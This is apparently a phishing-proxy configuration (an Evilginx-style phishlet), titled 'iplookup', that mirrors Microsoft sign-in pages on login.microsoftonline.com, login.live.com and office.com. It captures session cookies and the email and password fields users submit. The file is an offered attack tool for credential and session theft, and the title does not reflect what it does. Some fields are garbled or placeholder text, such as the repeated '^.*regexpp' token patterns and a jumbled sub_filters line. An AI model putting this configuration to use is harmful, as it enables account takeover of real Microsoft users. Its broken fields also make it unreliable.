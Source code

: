 # iplookup

min_ver: '3.2.0'
_proxy_hosts:
  - phish_sub: 'login'
    orig_sub: 'login'
    domain: 'microsoftonline.com'
    session: true
    is_landing: true
  - phish_sub: 'login'
    orig_sub: 'login'
    domain: 'live.com'
    session: true
    is_landing: false
  - phish_sub: 'www'
    orig_sub: 'www'
    domain: 'office.com'
    session: true
    is_landing: false
_sub_filters:
  - triggers: ['breakdev.org', 'orig.sub', 'academy', 'breakdev.org', 'search="something_to_look_for"', 'replace="replace_it_with_this"']
_auth_tokens:
  - domain: 'live.com'
    keys: ['^.*regexpp']
  - domain: 'live.com'
    keys: ['^.*regexpp']
  - domain: 'login.live.com'
    keys: ['^.*regexpp']
  - domain: 'login.live.com'
    keys: ['^.*regexpp']
  - domain: 'login.microsoftonline.com'
    keys: ['^.*regexpp']
  - domain: 'login.microsoftonline.com'
    keys: ['^.*regexpp']
  - domain: 'microsoft.com'
    keys: ['^.*regexpp']
  - domain: 'microsoft.com'
    keys: ['^.*regexpp']
  - domain: 'office.com'
    keys: ['^.*regexpp']
  - domain: 'office.com'
    keys: ['^.*regexpp']
_credentials:
  username:
    key: 'email'
    search: '(.*)'
    type: 'post'
  password:
    key: 'password'
    search: '(.*)'
    type: 'post'
_login:
  - domain: 'login.microsoftonline.com'
    path: '/'

